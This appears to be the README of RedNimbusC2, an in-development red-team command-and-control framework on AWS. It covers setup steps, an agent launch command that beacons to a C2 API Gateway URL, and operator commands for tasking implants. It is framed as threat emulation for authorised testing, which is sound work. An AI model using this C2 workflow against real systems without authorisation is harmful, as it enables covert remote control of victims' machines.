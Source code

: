 # :cloud: RedNimbusC2

Red Nimbus C2 is a [command and control](https://attack.mitre.org/tactics/TA0011/) framework built on AWS services including [Lambda](https://aws.amazon.com/lambda/), [S3](https://aws.amazon.com/s3/), and [CloudWatch](https://aws.amazon.com/cloudwatch/).

The purpose of this tool is to enable legitimate cybersecurity practitioners to emulate advanced cyber threats. In that way, organizations can identify weaknesses and apply corrective and/or compensating controls to improve their security posture.

![alt text](images/nimbusC2_architecture.png)

## :warning: READ THIS FIRST! :warning:

- You are solely responsible for your use of this tool.

- You are required to build it, deploy it, and operate it.

- :moneybag: :fire: **You will be charged for your use of AWS resources**.

- Before utilizing this tool, ensure you have explicit written permission to assess the target network(s) from the network owner(s).

- Additionally, you are responsible for complying with the AWS support policy for penetration testing, available [here](https://aws.amazon.com/security/penetration-testing/).

- Misuse of this tool is **strongly condemned** by the author, and will almost certaintly result in criminal and/or legal action.

## :construction: Pardon Our Dust

This repository is under active development.

Content is not expected to be stable or even usable at this time.

`[!] Do not use this tool until this notice is removed.`

## :floppy_disk: Prerequisites

### 1. Create AWS Account

Red Nimbus C2 makes exclusive use of AWS cloud services.

For this reason, you must have your own AWS account.

Instructions on creating an AWS account are provided [here](https://aws.amazon.com/premiumsupport/knowledge-center/create-and-activate-aws-account/).

### 2. Install Build Dependencies

You must install the following resources in order to build and operate Red Nimbus C2:

1. [Node.js](https://nodejs.org/en/)
2. [Python 3](https://www.python.org)
3. [Go](https://go.dev)
4. [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html)
5. [AWS CDK](https://aws.amazon.com/getting-started/guides/setup-cdk/)
6. [Make](https://www.gnu.org/software/make/)
7. [Git](https://git-scm.com)

## :computer: Installation

After installing the needed build depdencies, you can install/deploy Red Nimbus C2 using the following commands.

1. **Clone the repository**

```bash
git clone https://github.com/bluesentinelsec/RedNimbusC2.git
```

2. **Deploy Red Nimbus C2 infrastructure to AWS using [CDK](https://aws.amazon.com/cdk/)**

```bash
# enter the RedNimbusC2 directory
cd RedNimbusC2

# deploy RedNimbusC2 resources to AWS
make deploy

# optionally deploy to a specific AWS account like so:
# make deploy AWS_PROFILE=<your_profile>
```

See [here](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-profiles.html) for info on configuring AWS CLI profiles.

:exclamation: To remove the Red Nimbus C2 infrastructure on AWS:

```bash
# remove nimbusc2 binaries and AWS infrastructure
# this will destroy any operational data you may have
# in S3, so be sure to backup your data before uninstalling if necessary 
make destroy
```

3. **Install the Red Nimbus C2 Operator Client**

```bash
# from RedNimbusC2 directory
pip3 install -r operator_client/requirements.txt

python3 operator_client/nimbusc2.py --help
```

## Operator Instructions

Red Nimbus C2 uses the following workflow:

1. Deploy agent to target
2. Issue commands using the Nimbus C2 operator client
3. Cleanup when finished

### 1. Deploy Agent to Target System(s)

We provide an [example agent written in Python](./agent/agent.py).

You may use this script as a reference to implement your own agent for operational purposes. [Go is a good choice.](https://github.com/bluesentinelsec/OffensiveGoLang)

Otherwise, you are responsible for deploying the agent to your intended target.

As a reminder, always stay in scope, always follow your rules of engagement, and always get explicit written permission to execute prior to conducting your engagement.

Once the agent is on target, you can execute it as follows:

```bash
# view help
python3 agent.py --help

# start C2 loop
python3 agent.py --url <AWS API Gateway URL>
```

### 2. Issue commands using the Nimbus C2 operator client

The Red Nimbus C2 operator client is provided [here](./operator_client/nimbusc2.py).

**Interact with Agent Sessions**

```bash
# view summarized info about all sessions
nimbusc2.py --list-sessions

# view detailed agent session information
nimbusc2.py --get-session --session-id <agent_session_id>

# terminate agent session
nimbusc2.py --remove-session --session-id <agent_session_id>
```

**Issue Commands to Agents**

```bash
# issue an agent task; will be executed by all agents by default
nimbusc2.py --set-task --cmd <supported_agent_command>

# view a pending agent task
nimbusc2.py --get-task --task-id <task_id>

# delete a pending agent task
nimbusc2.py --remove-task --task-id <task_id>
```

### View Task Output

TBD

### Cleanup

You can task all implants to terminate and delete by issuing this command:

```
TBD
```
